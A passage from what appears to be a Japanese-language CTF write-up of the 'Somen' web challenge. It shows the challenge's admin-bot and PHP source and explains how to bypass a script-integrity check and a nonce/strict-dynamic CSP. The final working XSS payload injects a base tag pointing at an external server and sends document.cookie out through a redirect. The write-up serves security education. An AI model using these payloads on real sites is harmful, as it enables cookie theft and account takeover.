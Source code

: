 # Somen
421 pt (20 Solves)
```
Somen is tasty.
[url]
```

<details>
  <summary>worker.js</summary>
  
  ```js
  const puppeteer = require('puppeteer');

/* ... ... */

// initialize
const browser = await puppeteer.launch({
    executablePath: 'google-chrome-unstable',
    headless: true,
    args: [
        '--no-sandbox',
        '--disable-background-networking',
        '--disk-cache-dir=/dev/null',
        '--disable-default-apps',
        '--disable-extensions',
        '--disable-gpu',
        '--disable-sync',
        '--disable-translate',
        '--hide-scrollbars',
        '--metrics-recording-only',
        '--mute-audio',
        '--no-first-run',
        '--safebrowsing-disable-auto-update',
    ],
});
const page = await browser.newPage();

// set cookie
await page.setCookie({
    name: 'flag',
    value: process.env.FLAG,
    domain: process.env.DOMAIN,
    expires: Date.now() / 1000 + 10,
});

// access
// username is the input value of players
const url = `[url]/?username=${encodeURIComponent(username)}`;
try {
    await page.goto(url, {
        waitUntil: 'networkidle0',
        timeout: 5000,
    });
} catch (err) {
    console.log(err);
}

// finalize
await page.close();
await browser.close();

/* ... ... */
  ```
</details>
<details>
  <summary>index.php</summary>
  
  ```php
  <?php
$nonce = base64_encode(random_bytes(20));
header("Content-Security-Policy: default-src 'none'; script-src 'nonce-${nonce}' 'strict-dynamic' 'sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A='");
?>

<head>
    <title>Best somen for <?= isset($_GET["username"]) ? $_GET["username"] : "You" ?></title>

    <script src="/security.js" integrity="sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A="></script>
    <script nonce="<?= $nonce ?>">
        const choice = l => l[Math.floor(Math.random() * l.length)];

        window.onload = () => {
            const username = new URL(location).searchParams.get("username");
            const adjective = choice(["Nagashi", "Hiyashi"]);
            if (username !== null)
                document.getElementById("message").innerHTML = `${username}, I recommend ${adjective} somen for you.`;
        }
    </script>
</head>

<body>
    <h1>Best somen for You</h1>

    <p>Please input your name. You can use only alphabets and digits.</p>
    <p>This page works fine with latest Google Chrome / Chromium. We won't support other browsers :P</p>
    <p id="message"></p>
    <form action="/" method="GET">
        <input type="text" name="username" place="Your name"></input>
        <button type="submit">Ask</button>
    </form>
    <hr>

    <p> If your name causes suspicious behavior, please tell me that from the following form. Admin will acceess /?username=${encodeURIComponent(your input)} and see what happens.</p>
    <form action="/inquiry" method="POST">
        <input type="text" name="username" place="Your name"></input>
        <button type="submit">Ask</button>
    </form>

</body>
  ```
</details>

## 概要
テキストボックスが2つある。1個は自分で実行、もう1個はクローラーに実行させる。  
usernameに入力した内容が挿入されるので、XSSだろう。
しかし`security.js`とCSPの所為で全然上手くいかない。

`worker.js`をみるとcookieにflagがあるのがわかる。  

## 解
目標は2つ。
1. security.jsの制限をバイパス
1. CSPのバイパス

#### security.jsの制限をバイパス

```html
</title><base href="//example.com">
```

これを書き込むと以下のような状態になる。

```html
<base href="//example.com">  
<script src="./security.js">
```

`./security.js`は`example.com/security.js`として処理され、コンソールログに404が表示される。  

#### CSPのバイパス
`security.js`はバイパスできたので次はCSPのバイパスを目指す。  
CSPの`nonce`と`strict-dynamic`のバイパスを調べてたら[良さげな記事](https://szarny.hatenablog.com/entry/2019/01/01/XSS_Challenge_%28%E3%82%BB%E3%82%AD%E3%83%A5%E3%83%AA%E3%83%86%E3%82%A3%E3%83%BB%E3%83%9F%E3%83%8B%E3%82%AD%E3%83%A3%E3%83%B3%E3%83%97_in_%E5%B2%A1%E5%B1%B1_2018_%E6%BC%94%E7%BF%92%E3%82%B3%E3%83%B3)。case23が似てる状況。  
既に実行を許可されたscriptタグの中に任意のjsを埋め込みたい。
case23を参考にとりあえず書いてみる。

```html
<p id="message">[username], I recommend Nagashi somen for you.</p>
```

のように代入されてるので、idがmessageなscriptタグを作る。

```
alert();//</title><script id="message"></script><base href="http://example.com">
```

上を入力するとHTMLは以下のようになる。HTMLとしては壊れてるけど、よしなにしてくれる。
titleに代入されたうえでidがmessageなとこに代入されるので結構ごちゃごちゃ。

```html
 <title>Best somen for alert();//</title>
 <script id="message">
 alert();//</title><script id="message"></script><base href="http://example.com">, I recommend Nagashi somen for you.
 </script><base href="http://example.com">
```

アクセスされたときにurlを表示するようなwebサーバを用意して

```
document.location=`/?q=${encodeURIComponent(document.cookie)}`;//</title><script id="message"></script><base href="[url]">
```

を入力すればflag。

```
ctf4b{1_w0uld_l1k3_70_347_50m3n_b3f0r3_7ry1n6_70_3xpl017}
```
